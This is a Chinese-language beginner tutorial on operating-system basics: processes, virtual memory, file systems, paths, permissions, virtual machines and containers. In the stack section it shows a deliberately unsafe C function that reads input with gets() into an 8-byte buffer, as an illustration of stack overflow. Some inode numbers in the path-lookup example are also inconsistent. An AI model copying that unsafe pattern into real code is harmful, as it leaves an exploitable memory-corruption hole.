# 计算机扫盲

*建议反复上下对比着看，能应付生活中的使用就行。不是学操作系统的不用了解太深。实在不会就喂给ai帮你理解。*

## 第一部分：操作系统核心概念

### 1.1 用户态与内核态

1\. 定义：

- **用户态**：CPU 的一种运行模式。权限受限，只能访问自己的内存空间。若想操作文件、网络、硬件等，必须通过系统调用请求内核代为执行。
- **内核态**：CPU 的另一种模式。拥有最高权限，可以执行任何CPU指令、访问所有内存、磁盘和外设。操作系统的核心（内核）运行在此模式下。
- 简单理解：动内存是用户，动磁盘是内核。

2\. 系统调用是用户态进入内核态的唯一**主动、合法、受控**通道。

### 1.2 进程与线程

1\. 定义

- **进程**：资源分配单位（虚拟地址空间、句柄表、PID）。正在运行的程序实例。它是**资源分配**的基本单位。
  - 打开一个Chrome浏览器 → 一个进程

- **线程**：调度执行单位（寄存器、栈、TEB）。进程内部的执行流。它是**CPU调度**（实际执行）的基本单位。
  - Chrome里开多个标签页 → 多个线程（实际Chrome是多进程，但这是设计选择）

2\. 线程间通信

严格来说，**线程间不叫“通信”，叫“同步”**。

- **进程间通信 (IPC)**：不同进程之间传递数据。进程地址空间隔离，需要特殊机制（管道、消息队列、共享内存 + 锁）。
- **线程间通信**：同一进程内的线程**天然共享地址空间**，一个线程写变量，另一个线程直接就能读。不需要“传递”，只需要**通知对方“数据已准备好”** 或 **等待对方用完**。

**共享数据 + 并发访问 = 竞态条件**

**线程同步的目标**：让多个线程**有序**地访问共享资源，避免数据错乱。

3\. 上下文切换开销

- **上下文切换**：CPU 停止执行当前任务（进程/线程），转而执行另一个任务时，需要保存当前任务的“状态”（上下文），并恢复下一个任务的“状态”。

- **上下文** = CPU 寄存器的值 + 程序计数器 (PC) + 栈指针 + 内存管理信息（页表基址等）+ 其他内核状态。

### 1.3 虚拟内存

1\. 虚拟地址 vs 物理地址

- **虚拟地址**：程序“以为”自己在用的地址。在 C 语言中打印任何指针的值（`%p`），得到的都是虚拟地址。
- **物理地址**：内存芯片（RAM）上的真实位置。程序永远看不到真正的物理地址。

> 问：两个不同的进程，都打印 `&x` 得到 `0x7ffeeb2a3c7c`。它们访问的是同一个物理内存位置吗？

**答**：不是。两个进程各自的虚拟地址 `0x7ffeeb2a3c7c` 通过各自的页表翻译到不同的物理地址。这正是虚拟内存提供隔离的核心。

**虚拟地址不占空间，它只是编号。真正的数据存在物理内存里。**

2\. 页表与缺页中断

- **页表是操作系统内核维护的一种数据结构**，用于记录**虚拟页 → 物理页框**的映射关系。
  - `0x12345678` 找到的物理地址的表。

- **缺页中断**：当 CPU 访问一个虚拟地址时，通过页表查找物理页框：
  - 如果 **Present 位 = 1** → 正常访问
  - 如果 **Present 位 = 0** → 触发**缺页中断（Page Fault）**，CPU 陷入内核态，执行缺页中断处理程序。

| 类型         | 原因                                        | 处理方式                         |
| :----------- | :------------------------------------------ | :------------------------------- |
| **有效缺页** | 虚拟页已分配，但物理页被换出到磁盘（swap）  | 从磁盘读回物理内存，更新页表     |
| **按需调页** | 虚拟页刚分配（如 `malloc`），从未分配物理页 | 分配一个物理页框，清零，更新页表 |
| **非法访问** | 访问未分配的虚拟地址（如 NULL 指针、越界）  | 发送 SIGSEGV（段错误），杀死进程 |

以 C 语言为例：

```c
char *p = malloc(1 * 1024 * 1024);  // 分配 1MB 虚拟地址空间
// 此时：虚拟页已分配（VMA 已创建），但页表 Present=0

p[0] = 'A';  // 第一次访问
// → 缺页中断（按需调页）
// → 内核分配 1 个物理页框（4KB），更新页表
// → 重新执行指令，写入成功

p[4096] = 'B';  // 访问下一页
// → 再次缺页中断，再分配一个物理页框
// → 直到所有页都被触碰，才分配完 256 个物理页框（1MB/4KB）
```

> 问：一个程序 `malloc(1GB)` 但只写第一个字节，它占用了多少物理内存？

**答**：约 4KB（一个物理页框）+ 内核数据结构（页表等）。1GB 虚拟地址空间只触发了 1 次缺页中断。

3\. 内存区域：代码段、数据段、堆、栈、共享库。

一个进程的完整虚拟地址空间布局：以 **Linux x86-64** 为例：



- **代码段**：存放**程序指令**，**只读模式**。
  - `if`、`while`、函数调用、编译器生成的汇编指令。

- **数据段**：

  - **.data**：存放**已初始化**的全局变量和静态变量。
  - **.bss**：存放**未初始化**或**初始化为0**的全局/静态变量。只记录大小，**不占用可执行文件空间**。
  - **.rodata**：存放**只读数据**（字符串常量、`const` 全局变量）。如果尝试修改 → 段错误。

- **堆**：

  - 动态分配的内存区域（`malloc` / `new`）。

  - **向上增长**（向高地址方向扩展）。

  - 由程序员手动管理（`free` / `delete`），或由 GC（如 Java/C#）自动管理。

  - ```c
    工作原理
    初始时：brk 指针指向堆的顶部
    
    malloc(1000)：
        - 如果现有堆空间不够 → 调用 brk/sbrk 系统调用，增加堆大小
        - 返回堆中的一块地址
    
    free()：
        - 不一定会缩小堆（brk 不降），而是由 glibc 的堆管理器缓存起来供后续 malloc 使用
    ```

- **栈**：

  - 存放**函数调用信息**：局部变量、参数、返回地址、保存的寄存器。

  - **向下增长**（从高地址向低地址）。

  - 由编译器自动管理（函数进入时分配，返回时释放）。

    **函数调用过程**：

    ```c
    int add(int a, int b) {
        int c = a + b;   // 局部变量在栈上
        return c;
    }
    
    int main() {
        int x = add(3, 4);  // 参数通过寄存器传 (rdi, rsi)
        return 0;
    }
    ```

    **汇编（简化）**：

    ```assembly
    add:
        push rbp          ; 保存旧 rbp
        mov  rbp, rsp     ; 设置新栈帧
        mov  dword [rbp-4], edi  ; 参数 a 保存到栈
        mov  dword [rbp-8], esi  ; 参数 b 保存到栈
        mov  eax, [rbp-4] ; a
        add  eax, [rbp-8] ; a+b
        mov  [rbp-12], eax ; c = a+b
        mov  eax, [rbp-12] ; 返回值放 eax
        pop  rbp          ; 恢复旧 rbp
        ret               ; 返回
    ```

  - 栈溢出

    ```c
    void dangerous() {
        char buf[8];
        gets(buf);  // 如果输入超过 8 字节，覆盖返回地址 → 栈溢出漏洞
    }
    ```



- **共享库映射区域**

  - 存放**动态链接库**（Linux `.so`，Windows `.dll`）的代码、数据。
  - 通过 `mmap` 映射到进程地址空间。
  - 物理内存中**只有一份**，多个进程共享。
  - 常见共享库：
    - Linux：libc.so.6、ld-linux-x86-64.so.2、libpthread.so.0。
    - Windows：ntdll.dll、kernel32.dll、user32.dll

什么是 mmap？

**mmap（Memory Map，内存映射文件）是一种将文件或设备映射到进程虚拟地址空间的机制。**

- 映射成功后，进程可以像访问内存一样（通过指针）读写文件。
- 操作系统自动处理内存与磁盘之间的数据同步。
- 多个进程可以映射同一个文件，实现共享内存。

**一句话**：mmap 让文件读写变得像 `memcpy` 一样简单。

### 1.4 文件系统

1\. **文件系统是操作系统用于管理（存储、检索、组织）硬盘/SSD 上数据的一套机制。**

**现实类比**：

- 没有文件系统的磁盘 → 像一堆散落的乐高积木，不知道哪块是什么。
- 有文件系统的磁盘 → 像分类收纳盒，每个格子有标签，可以快速找到想要的积木。

**从操作系统视角，文件是一个“字节流” + 一组“元数据”。**

**文件的组成**：

| 组成部分       | 说明                  | 例子                                   |
| :------------- | :-------------------- | :------------------------------------- |
| 数据块         | 实际内容（字节）      | "Hello World\n"                        |
| 元数据 (inode) | 描述信息              | 大小、所有者、权限、时间戳、数据块位置 |
| 文件名         | 人类可读的标识        | "notes.txt"                            |
| 目录项         | 文件名 → inode 的映射 | "notes.txt" → inode 12345              |

- 每个文件/目录有一个 inode（磁盘上的数据结构）。inode存储文件的**元数据**，不包括文件名

inode 包含的信息（Linux ext4举例）

```text
inode {
    mode;          // 文件类型 + 权限（rwxr-xr-x）
    uid;           // 所有者用户 ID
    gid;           // 所有者组 ID
    size;          // 文件大小（字节）
    atime;         // 最后访问时间
    mtime;         // 最后修改时间
    ctime;         // 最后状态改变时间
    nlink;         // 硬链接计数（有多少个文件名指向这个 inode）
    blocks;        // 占用的磁盘块数
    block[15];     // 数据块指针数组（12 直接 + 1 间接 + 1 双重间接 + 1 三重间接）
}
```

文件系统的层次结构：



2\. **磁盘结构基础**



**SSD 逻辑上相同，但物理上不同**（没有磁道，用闪存页代替）。

3\. **内存（RAM）和硬盘（存储）**

内存是电脑的“工作台”，硬盘是“仓库”。工作台再大，断电就清空；仓库再小，东西一直留着。

| 对比项       | 内存（RAM）                  | 硬盘（存储）                 |
| :----------- | :--------------------------- | :--------------------------- |
| **作用**     | 临时存放正在运行的程序和数据 | 永久存放文件、系统、软件     |
| **断电后**   | 数据全部丢失                 | 数据还在                     |
| **速度**     | 极快（纳秒级）               | 慢（SSD 微秒级，HDD 毫秒级） |
| **容量**     | 小（4GB-32GB 常见）          | 大（256GB-2TB 常见）         |
| **价格**     | 贵（每 GB）                  | 便宜（每 GB）                |
| **坏了影响** | 电脑运行卡顿、闪退、蓝屏     | 文件丢失、系统无法启动       |

**内存不够电脑会卡**

每个程序（浏览器、微信、游戏）运行都要占内存。

打开多个标签页/程序后，电脑越来越卡，关掉几个就恢复正常。

够用的情况下，大内存不会让电脑更快。但不够用时，加内存能明显缓解卡顿。

- **日常办公 + 网页**：8GB 够用
- **轻度游戏/编程**：16GB
- **虚拟机/视频剪辑/大型游戏/跑本地ai**：32GB 或更多

4\. **目录也是一个文件，内容是一张表。**

```text
目录 "/home/user" 的内容（简化）：
┌────────────┬────────────┐
│ 文件名      │ inode 编号  │
├────────────┼────────────┤
│ .          │ 12345      │ (当前目录)
│ ..         │ 12000      │ (父目录)
│ notes.txt  │ 67890      │
│ code       │ 99999      │ (子目录)
└────────────┴────────────┘
```

```text
例如：打开 "/home/user/notes.txt"：

1. 从根目录 "/" 的 inode 开始（固定，通常是 inode 2）
2. 在根目录的文件表中找 "home" → 得到 inode 12345
3. 读取 inode 12345（/home 目录的内容），找 "user" → 得到 inode 67890
4. 读取 inode 67890（/home/user 目录的内容），找 "notes.txt" → 得到 inode 99999
5. 读取 inode 99999 的数据块 → 返回文件内容
```

5\. **文件系统布局（以 ext4 为例）**



| 区域           | 作用                                                     |
| :------------- | :------------------------------------------------------- |
| **引导块**     | 存放引导程序（如果分区可启动）                           |
| **超级块**     | 文件系统元数据：块大小、inode 总数、空闲块数、挂载时间等 |
| **块组描述符** | 每个块组的位置信息                                       |
| **块位图**     | 标记哪些数据块已使用/空闲                                |
| **inode 位图** | 标记哪些 inode 已使用/空闲                               |
| **inode 表**   | 连续的 inode 结构体数组                                  |
| **数据块**     | 实际的文件内容和目录内容                                 |

6\. **标准输入输出（stdin/stdout/stderr）即文件描述符表（进程级别）**

```text
每个进程：
┌─────────────────────┐
     文件描述符表           
├─────────────────────┤
│ fd 0      → 标准输入 
│ fd 1      → 标准输出 
│ fd 2      → 标准错误 
│ fd 3      → file.txt
│ fd 4      → socket  
└─────────────────────┘
```

**三个特殊文件描述符**（默认打开）：

| fd   | 名称   | 通常指向             |
| :--- | :----- | :------------------- |
| 0    | stdin  | 键盘输入（可重定向） |
| 1    | stdout | 屏幕输出（可重定向） |
| 2    | stderr | 错误输出（默认屏幕） |

7\. **硬链接 vs 软链接（Linux内核）**

- 硬链接
  - 多个文件名指向**同一个 inode**。
  - 删除一个硬链接，其他硬链接仍然有效。
  - 不能跨文件系统。
  - 不能链接目录（防止循环）。

- 软链接（符号链接）
  - 一个**特殊的文件**，内容存储的是"目标路径"。
  - 可以跨文件系统。
  - 可以链接目录。
  - 目标被删除后，符号链接成为"悬空链接"。

8\. **文件系统 vs 磁盘分区**

```text
物理磁盘
├── 分区1 (/boot, ext4)
├── 分区2 (/, ext4)      ← 文件系统 1
├── 分区3 (swap)         ← 没有文件系统，直接用作交换空间
└── 分区4 (/home, xfs)   ← 文件系统 2

- 一个分区可以没有文件系统（swap、裸设备）
- 文件系统必须建立在分区或逻辑卷上
- 不同分区可以有不同的文件系统类型（ext4, xfs, ntfs, btrfs...）
```

9\. **压缩和解压缩**

压缩是把文件**变小**，方便存储和传输；解压缩是把压缩后的文件**还原**成原来的样子。

**目的**：节约空间。

假设有一个文件内容：

```text
AAAAAAAAAABBBBB
```

压缩后可以写成：（这是例子，实际是**LZ系列算法**压缩）

```
10A5B
```

解压时再还原成 `AAAAAAAAAABBBBB`。

**两种压缩方式**

| 类型         | 说明                                             | 例子                                  |
| :----------- | :----------------------------------------------- | :------------------------------------ |
| **无损压缩** | 解压后和原文件一模一样（不能出错）               | ZIP、RAR、7Z                          |
| **有损压缩** | 解压后和原文件不完全一样，但人能接受（体积更小） | JPG（图片）、MP3（音频）、MP4（视频） |

**常见压缩格式**

| 格式       | 特点                       | 常见用途       |
| :--------- | :------------------------- | :------------- |
| **ZIP**    | 通用，Windows 自带支持     | 日常文件打包   |
| **RAR**    | 压缩率比 ZIP 高，需 WinRAR | 网络分享       |
| **7Z**     | 压缩率最高，开源           | 高压缩需求     |
| **TAR.GZ** | Linux 常用，先打包后压缩   | 服务器、源码包 |
| **ISO**    | 光盘镜像（不一定压缩）     | 系统安装盘     |

10\. **删除的文件还能恢复**

**一句话**：操作系统删除文件时，**并没有真正擦除文件内容**，只是把这块硬盘空间标记为“可覆盖”。

**当“删除”一个文件时**，操作系统只做了一件事：**在目录里把这条记录划掉**，在旁边写“这些页码是空的”。

下次你要写新东西，系统看到“这些页码是空的”，才**可能**会覆盖掉它们。

**恢复软件做的事**：扫描硬盘上所有“未标记为在用”的页码，把里面的内容拼回来。

**如果误删，一定不要乱动，因为每一步操作都有可能覆盖某些删除的数据。这时候直接去找恢复工具恢复，操作步骤越少就越有概率完整恢复。**

**常见恢复工具**：

Recuva：免费，操作简单。

TestDisk：开源免费，功能强大，命令行。

EaseUS Data Recovery：商业软件，成功率较高。

11\. **杀毒软件的查杀病毒、文件粉碎、解锁占用**

杀毒软件首选火绒。（不要选360，鲁大师这种**软件。）

**查杀病毒**

扫描文件内容，与病毒库中的特征码比对，或通过行为分析判断是否为恶意软件。发现病毒后，通常会**清除文件中的病毒代码**（保留原文件），或直接将文件**隔离/删除**（若无法修复）。

**核心**：**识别并移除威胁**。

**文件粉碎**

**彻底擦除**文件内容，使其无法被恢复！无法恢复！无法恢复！

普通删除仅移除文件索引，数据仍留在磁盘上，可用恢复软件找回。粉碎会用无意义数据（如0、1）**多次覆盖**文件原存储位置，再删除索引。

**核心**：**防止数据被恢复**，适用于删除隐私或敏感文件。

**解锁占用**

强制解除某个程序对文件或文件夹的**占用锁**，使其可以被移动、重命名或删除。

比如：一个文件正被某程序打开使用，系统会锁定该文件，防止其他程序修改。

解锁占用功能是杀毒软件会找到并**结束**占用该文件的**进程**，或强制解锁。安全软件会分析是哪个进程在占用，并给你选项来结束它。

**核心**：**解决“操作无法完成，因为文件已在另一程序中打开”的问题**。

### 1.5 文件与路径

*本来这里应该放到文件系统里的，可能是因为神人太多了吧，我想把它单独列出来😒。*

路径就是文件在电脑里的“地址”。绝对路径从根目录写起，相对路径从当前位置写起。

**1.5.1 绝对路径和相对路径**

**1. 绝对路径**

**定义**：从根目录（最顶层）开始，完整地写出文件所在的位置。

**Windows 示例**：

```text
C:\Windows\System32\notepad.exe
C:\Users\你的用户名\Desktop\a.txt
D:\game\save.dat
```

**Linux / macOS 示例**：

```text
/home/你的用户名/.bashrc
/var/log/nginx/access.log
/etc/passwd
```

- 唯一确定一个文件（不会找错）
- 很长，写起来麻烦
- 换台电脑可能路径不同（安装包。用户名不同、盘符不同）

**2. 相对路径**

**定义**：以“当前所在目录”为参考，写出文件的位置。

`.` 表示当前目录。		`./` 当前目录下。

`..` 表示上一级目录。	`../` 上一级目录下。

`~` 表示家目录。

`*` 和 `?` 是通配符。

**Windows / Linux 通用示例**：

```text
# 假设当前在 C:\Users\你的用户名\Desktop （在桌面上）
# 想访问 C:\Users\你的用户名\Desktop\a.txt
.\a.txt   # 或者直接 a.txt

# 想访问 C:\Users\你的用户名\Documents\b.txt
..\Documents\b.txt

# 想访问 C:\Windows\System32\notepad.exe
..\..\Windows\System32\notepad.exe
```

`~` 波浪号在Windows系统的PowerShell中（cmd不支持）代表 `C:\Users\用户名` ，在Linux系统中代表` /home/用户名`。

| 符号 | 含义                      | 示例                                      |
| :--- | :------------------------ | :---------------------------------------- |
| `*`  | 匹配任意个字符（包括0个） | `*.txt` 匹配所有 txt 文件                 |
| `?`  | 匹配单个字符              | `file?.txt` 匹配 `file1.txt`、`fileA.txt` |

**3. 英文路径**

**路径里不要放中文、不要放空格、不要放奇怪符号。用英文小写 + 数字 + 下划线，能避免一大半奇怪的问题。**

最典型例子：下载 steam。

*Steam 是一个集**正版游戏购买、下载、安装、自动更新、社交联机、游戏直播、创意工坊**于一体的综合性数字游戏发行平台。大多数**正版游戏**都从这里**发售**。*

下载steam安装包后，在安装程序中用中文路径会报错。只能安装英文路径（即安装路径中**不能包含任何非 ASCII 字符**，包括中文、日文、韩文等，也不能包含特殊符号，如 `！`、`@`、空格等。）

> 已经用了中文路径怎么办？

新建一个英文文件夹，把文件移过去。如果使用没有问题就正常使用。

如果不能使用或者是部分功能被破坏了，卸载并重新安装。

**Windows 删除工具推荐**：BCUninstaller  GitHub的开源免费项目，比自带的控制面板强太多了。

**1.5.2 快捷方式**

快捷方式是一个**指向其他文件或程序的“替身”或“入口”**，它本身不是真实的程序，而是一个很小的引用文件。

它是一个指针，用于指向原文件的快捷方式。删除快捷方式 ≠ 删除原文件。

原始程序**被移动或重命名**则需要修改在**快捷方式的属性**中**修改路径**才会重新起效。

*书接上文，修改文件路径后，别快捷方式坏了就把软件卸载了。修改快捷方式的属性或者删除坏的快捷方式并找到指向的文件，右键文件并创建快捷方式就可以了。（然后托桌面上🫡）*

**1.5.3 文件名大小写**

Linux 把 `File.txt` 和 `file.txt` 当成两个不同的文件；

Windows 把它们当成同一个文件。

macOS 默认不敏感，但底层支持（可配置）。

**1.5.4 文件扩展名**

扩展名是文件名中最后一个点（`.`）后面的部分，用于**提示操作系统这个文件是什么类型、该用什么程序打开**。

在文件资源管理器中，默认情况下是不显示扩展名的。需要在上方任务栏中的 查看→显示→文件扩展名（Windows系统） 勾上才能看见。

```text
文件名                     扩展名        文件类型
──────────────────────────────────────────────
document.txt              .txt         纯文本文件
photo.jpg                 .jpg         图片（JPEG格式）
resume.pdf                .pdf         PDF文档
index.html                .html        网页文件
setup.exe                 .exe         Windows可执行程序
script.py                 .py          Python脚本
```

**关键规则**：

- 一个文件可以**没有扩展名**（Linux下的可执行文件经常没有）
- 以点开头的文件在Linux中是**隐藏文件**（如 `.bashrc`）

**✅扩展名只是文件名的一部分，不决定文件的内容。**

**与文件头的关系**：

| 概念                       | 位置               | 作用                    | 可否伪造         |
| :------------------------- | :----------------- | :---------------------- | :--------------- |
| **扩展名**                 | 文件名末尾         | 给操作系统/用户看的提示 | ✅ 随便改         |
| **文件头（Magic Number）** | 文件开头的几个字节 | 真正标识文件类型        | ❌ 改了内容就坏了 |

不同操作系统对扩展名的依赖程度不同

| 操作系统    | 对扩展名的依赖 | 原因                                                      |
| :---------- | :------------- | :-------------------------------------------------------- |
| **Windows** | 强依赖         | 通过扩展名关联默认程序（`.docx`→Word，`.jpg`→照片查看器） |
| **Linux**   | 弱依赖         | 通过文件头判断类型，可执行文件看权限位（`chmod +x`）      |
| **macOS**   | 中等           | 普及扩展名，但也有统一类型标识（UTI）                     |

**1.5.5 隐藏文件**

文件名以点（`.`）开头的文件，在默认设置下不被显示。

- Linux / macOS：文件名以 `.` 开头的文件为隐藏。

- Windows：文件属性勾选“隐藏”即可隐藏。

在文件资源管理器中，默认情况下是不显示隐藏文件的。需要在上方任务栏中的 查看→显示→隐藏文件（Windows系统） 勾上才能看见。而 Linux 系统在命令行中想看见需要在 `ls` 后加 `-a`。

### 1.6 权限模型与用户

**权限模型 是操作系统 控制 “谁 能对哪个资源 做什么操作” 的一套规则。**

| 要素     | 含义           | 例子                       |
| :------- | :------------- | :------------------------- |
| **主体** | 谁在请求操作   | 用户、进程、线程           |
| **客体** | 要操作什么资源 | 文件、目录、设备、共享内存 |
| **操作** | 要做什么       | 读、写、执行、删除         |

1\. **Linux 权限模型（UGO + RWX）**

**UGO = User（所有者） + Group（所属组） + Others（其他人）**

```text
文件权限示例：rwxr-xr--
            │││││││││
            ││││││└┴┴ 其他人权限 (r--)
            │││└┴┴──── 组权限 (r-x)
            └┴┴─────── 所有者权限 (rwx)

r = 读 (4)  w = 写 (2)  x = 执行 (1)
```

**特殊权限（SUID、SGID、Sticky Bit）**

（涉及到Linux基础命令部分略写）

2\. **Windows 权限模型**

- **访问令牌（Access Token）**
  - 每个进程有一个访问令牌（登录时创建）。
  - 包含：用户 SID、组 SID、特权列表。

- **安全描述符**
  - 文件、注册表项、进程都有一个安全描述符。
  - **所有者 SID**
  - **DACL**（自由访问控制列表）：允许/拒绝哪些主体做哪些操作。
    - DACL 中的每个条目 = 主体 + 权限 + 允许/拒绝
  - **SACL**（系统访问控制列表）：记录哪些访问要审计。

Linux系统只有rwx三种权限，而Windows系统有十几种细粒度权限。

3\. Linux vs Windows 权限对比

| 对比项           | Linux                   | Windows                 |
| :--------------- | :---------------------- | :---------------------- |
| **主体**         | UID + GID               | SID（安全标识符）       |
| **客体权限**     | rwx (3位)               | 十几种细粒度权限        |
| **访问控制列表** | 可选（ACL）             | 强制（DACL）            |
| **超级用户**     | root (UID=0)            | SYSTEM / Administrator  |
| **权限检查时机** | 每次系统调用            | 每次系统调用            |
| **运行时降权**   | `setuid()` / `capset()` | `AdjustTokenPrivileges` |

### 1.7 虚拟机（Virtual Machine）

**虚拟机是通过软件模拟的完整计算机系统**，可以在物理计算机上运行一个或多个“虚拟的”操作系统。

**一句话**：虚拟机就是**计算机里的计算机**。

类型1（裸机型）

**Hypervisor 直接运行在硬件上，没有宿主机操作系统。**

**特点**：

- 性能高（无宿主机层开销）。
- 安全性好（Hypervisor 小，攻击面小）。
- 需要硬件虚拟化支持（Intel VT-x / AMD-V）。

**例子**：VMware ESXi、Microsoft Hyper-V、KVM（Linux）、Xen

类型2（托管型）

**Hypervisor 作为应用程序运行在宿主机操作系统上。**

**特点**：

- 方便（可在日常系统中运行）。
- 性能稍低（经过宿主机 OS 层）。
- 适合开发、测试、个人使用。

**例子**：VirtualBox、VMware Workstation、Parallels Desktop

**虚拟机核心组件**

1\. Hypervisor（虚拟机监视器，VMM）

**Hypervisor 是虚拟机的核心**，负责：

- 虚拟硬件资源（CPU、内存、磁盘、网卡）。
- 隔离虚拟机之间的资源。
- 调度物理硬件给各 VM 使用。
- 处理 VM 的异常和中断。

2\. 虚拟 CPU（vCPU）

- 物理 CPU 的时间片分配给各 vCPU。
- 虚拟机内的操作系统认为自己在运行在真实 CPU 上。
- 硬件虚拟化技术（Intel VT-x、AMD-V）让 vCPU 可以直接执行大部分指令，无需 Hypervisor 干预。

3\. 虚拟内存

- 每个 VM 有独立的物理内存空间（通过 EPT / NPT 硬件支持）。
- Hypervisor 维护 VM 的物理内存到真实物理内存的映射。
- 内存过量分配：可分配的总内存 > 物理内存（通过换页、去重技术）。

4\. 虚拟磁盘

- VM 看到的磁盘通常是宿主机上的一个文件（如 `.vmdk`、`.vhd`、`.qcow2`）。
- 类型：
  - **厚置备**：立即分配全部空间。
  - **精简置备**：按需分配（用到多少占多少）。
  - **差分磁盘**：基于快照的增量存储。

5\. 虚拟网络

- 虚拟网卡（vNIC）：VM 看到的网卡。
- 虚拟交换机（vSwitch）：VM 之间、VM 与物理网络之间的连接。
- 常见模式：
  - **NAT**：VM 通过宿主机 IP 访问外网。
  - **桥接**：VM 直接获得局域网 IP。
  - **仅主机**：VM 只能与宿主机通信。

**虚拟机的实际应用场景**

| 场景             | 说明                                  |
| :--------------- | :------------------------------------ |
| **服务器整合**   | 一台物理机运行多个 VM，替代多台物理机 |
| **开发测试**     | 快速创建干净环境，测试后销毁          |
| **遗留系统运行** | 在新硬件上运行旧 OS（如 Windows XP）  |
| **安全隔离**     | 运行可疑软件或分析恶意样本            |
| **云计算**       | AWS、Azure、GCP 的底层基础设施        |
| **灾难恢复**     | VM 镜像可快速恢复到另一台物理机       |

### 1.8 cgroup 与 namespace —— 容器的底层技术

**容器：是操作系统级别的虚拟化技术，允许在共享同一内核的情况下运行多个隔离的用户空间实例。**

- **虚拟机**：每个虚拟机有完整的操作系统（内核+用户空间），像一栋楼里的独立公寓（各自有墙、水电表）。
- **容器**：共享宿主机的内核，只隔离用户空间，像一栋楼里的合租房间（共享厨房、卫生间，但房间独立）。

| 特性     | 容器（docker）            | 虚拟机（VM）                    |
| :------- | :------------------------ | :------------------------------ |
| 内核     | 共享宿主机内核            | 每个 VM 独立内核                |
| 启动时间 | 毫秒级                    | 秒级                            |
| 资源占用 | 小（MB 级）               | 大（GB 级）                     |
| 隔离程度 | 中等（namespace 隔离）    | 强（硬件虚拟化）                |
| 性能损耗 | 几乎无                    | 有一定损耗                      |
| 操作系统 | 必须与宿主机相同内核      | 可运行不同 OS（Linux、Windows） |
| 典型大小 | 几十 MB 到几百 MB         | 几 GB 到几十 GB                 |
| 适用场景 | 微服务、快速扩缩容、CI/CD | 多租户、不同 OS 需求、强隔离    |

